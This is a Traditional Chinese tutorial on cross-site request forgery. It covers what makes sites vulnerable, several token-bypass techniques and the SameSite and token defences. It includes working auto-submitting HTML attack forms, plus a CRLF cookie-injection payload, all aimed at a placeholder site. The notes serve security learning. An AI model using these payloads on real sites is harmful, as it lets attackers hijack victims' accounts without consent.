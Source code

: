# CSRF
## 成因
* 跨站請求偽造（也稱為 CSRF），攻擊者誘導用戶執行他們不打算執行的操作。
* CSRF 達成的 3 個條件:
    * **相關行動** : 有理由誘導的操作，ex. 更換密碼。
    * **基於 Cookie 的 session 處理** : 僅使用 cookie 來驗證身分，而沒有其他像是追蹤 session 狀態或對發起的請求驗證。
    * **沒有不可預知的請求參數** : 沒有其他需要附上的額外參數，ex.更改密碼，有時需要先輸入之前的密碼。
## 影響
* 偽造請求，取得資料、權限
## 攻擊方法
### 建構與傳送 form
* 透過 form 表單的方式，傳遞給使用者(誘導使用者瀏覽攻擊者的網站)，再讓使用者傳送。
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
### 常見的 CSRF 漏洞
#### request method 驗證
* 有些系統僅驗證 POST 方法，因此我們可以嘗試更換請求方法，來達成攻擊。
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="GET">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
#### csrf token 存在驗證
* 有些系統依照 token 是否存在來決定是否進行驗證，因此我們可以透過刪除 token，來達成攻擊。

#### csrf token 未綁定使用者
* 有些系統的 token 未綁定使用者，因此攻擊者可以登入系統，將自己的 token 加入表單，來達成攻擊。
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="csrf" value="attacker_token" />
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
#### csrf token 未與 session 狀態綁定
* 有些系統雖然在 cookie 有加入 csrf token，但未合併到用來追蹤目前狀況的 session 中。
* 因此攻擊者可以透過登入系統，使用自己 cookie 的 csrf token 加入到使用者的 cookie 中 (前提是系統支援可設定使用者cookie)。
#### csrf token 直接複製 cookie token
* 有些系統，並不在 server 紀錄所發出去的 csrf token。而是將 cookie 中放入 csrf token，然後每個請求資料中的 csrf token 是直接複製 cookie 中的 token。驗證時僅檢查請求資料中的 csrf token 是否與 cookie 中相同。
* 因此在這邊，攻擊者不需要登入系統取得合法的 token ，可以自己創造 token (格式相同)。
* 這邊我們設定 csrf=fake 與 Set-Cookie:csrf=fake 設定相同值，來達成攻擊。
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="csrf" value="fake" />
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
    </body>
</html>
```
## 防禦方法
* 使用 CSRF token ，在每個請求中包含 CSRF token，CSRF token 由 server 端產生並存入 session 中，之後再放入回應傳送給 client，當 client 發送請求時，server 會去檢驗 token 的合法性。
* 使用 `SameSite` cookies，並且設為 `Strict`。
    * `SameSite` 設為 `Strict`，瀏覽器將不會在來自其他站點的任何請求中包含 cookie。但也許會破壞使用者體驗，假如使用者透過第3方軟體瀏覽，可能要再重新登入。
    * `SameSite` 屬性設置為 `Lax`，瀏覽器將在來自另一個站點的請求中包含 cookie，但前提是滿足兩個條件：
        * 該請求使用 GET 方法。使用其他方法(例如 POST)的請求將不包含 cookie。
        * 該請求來自用戶的最上層導覽，例如單擊鏈接。其他請求，例如由腳本發起的請求，將不包含 cookie。

---
###### tags: `web security`